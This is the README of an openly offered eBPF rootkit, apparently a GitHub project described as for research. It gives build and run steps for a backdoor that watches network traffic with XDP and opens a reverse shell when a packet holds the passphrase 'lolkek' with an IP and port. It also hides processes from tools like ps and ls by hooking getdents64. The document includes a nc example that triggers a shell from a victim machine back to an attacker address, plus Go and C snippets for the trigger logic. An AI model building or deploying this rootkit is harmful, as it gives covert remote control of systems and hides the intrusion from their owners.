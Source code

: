 # eBPF-rootkit
This project was made for research and practice with eBPF

This repository contains an eBPF rootkit that combines 2 main functions:

* Backdoor for remote access - uses `XDP` (eXpress Data Path) to monitor network traffic and launch a reverse shell when detecting a specific pattern in packets.

* Process Hiding - uses eBPF programs attached to the `getdents64` system call to hide specific processes from `ps`, `htop`, `ls` etc.

The process hiding part is taken from the [bad-bpf repository](https://github.com/pathtofile/bad-bpf/), but the loader has been rewritten in Go.

## Build
### Dependencies
To build and run the project, you will need:

* Go (version 1.16+)
* Clang and LLVM (for compiling eBPF programs)
* Linux kernel header files
* Cilium eBPF library for Go

```bash
# Installing dependencies on Ubuntu/Debian:

sudo apt update  
sudo apt install -y clang llvm libbpf-dev linux-headers-$(uname -r)  
go get github.com/cilium/ebpf

# Building

git clone https://github.com/cotsom/eBPF-rootkit.git  
cd eBPF-rootkit
go generate
go build -o ebpf-rootkit
```

## Usage

Run with root privileges:

```bash
./ebpf-rootkit [options]
Launch Options:
-p <PID> - PID of the process to hide (default: PID of the program itself)
-t <PPID> - Parent PID, will only affect its child processes
-i <interface> - Network interface to attach the XDP program to (default: eth0)
```


To launch the reverse shell, send a TCP packet containing your passphrase followed by the IP address and port to connect to, for example:

```bash
nc 192.168.1.100 22 # connect to victim machine with backdoor to any open port

# send command to nc
lolkek 192.168.123.200 4444
```

![alt text](assets/poc.gif)

## Changing the Passphrase for the Reverse Shell
For now the passphrase that triggers the reverse shell is `lolkek`

**main.go:**
```go
dataStr := string(data)
if strings.Contains(dataStr, "lolkek") {
    log.Printf("XDP: Found 'lolkek' trigger in packet data: %q", dataStr)
    parts := strings.Fields(dataStr)

...
```

and the number of bytes received from tcp payload is equal to the number of characters sent for the backdoor. Now this number is equal to 27
```bash
lolkek 192.168.123.200 4444 #27 characters
```

**bpf.c:**
```C
//GET TCP DATA
unsigned char *tcpdata = (unsigned char *)tcp + tcp_header_bytes;

if ((void *)(tcpdata + 27) > data_end) { // <---
    return XDP_PASS;
}

// Reserve space in the ring buffer
void *ringbuf_space = bpf_ringbuf_reserve(&xdprb, tcp_header_bytes, 0);
if (!ringbuf_space) {
    return XDP_PASS;  // If reservation fails, skip processing
}

// Copy the TCP header bytes into the ring buffer
// Using a loop to ensure compliance with eBPF verifier
for (int i = 0; i < 27; i++) { // <---
    unsigned char byte = *((unsigned char *)tcpdata + i);
    ((unsigned char *)ringbuf_space)[i] = byte;
}
```

**To change the passphrase, replace the string `lolkek` with your own phrase. This phrase is used as a trigger to launch the reverse shell. And the number of bytes to be received.**

After changing the passphrase, you need to rebuild the project:

`go generate`

`go build -o ebpf-rootkit`